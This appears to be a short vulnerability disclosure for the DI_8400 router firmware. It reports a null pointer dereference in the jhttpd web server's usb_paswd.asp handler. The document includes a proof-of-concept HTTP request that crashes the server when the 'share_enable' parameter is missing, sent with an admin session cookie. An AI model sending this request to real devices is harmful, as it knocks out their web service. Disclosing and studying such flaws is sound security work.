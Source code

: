 In the DI_8400-16.07.26A1 version, there is a null pointer dereference vulnerability in the usb_paswd.asp function of the jhttpd binary file

![](Pasted%20image%2020250724064947.png)

If the "share_enable" parameter is not passed in the request or it is empty, parm will be NULL. At this time, *parm=49 directly accesses the NULL pointer, causing the web program to crash.

![](Pasted%20image%2020250724065505.png)
poc
```
GET /usb_paswd.asp?_1420042000 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/login.cgi
Accept-Encoding: gzip, deflate, br
Cookie: wys_userid=admin,wys_passwd=8A754169257736FE61876D5E681CF5D5
If-Modified-Since: Wed, 03 Aug 2016 14:30:52 GMT
Connection: keep-alive

```

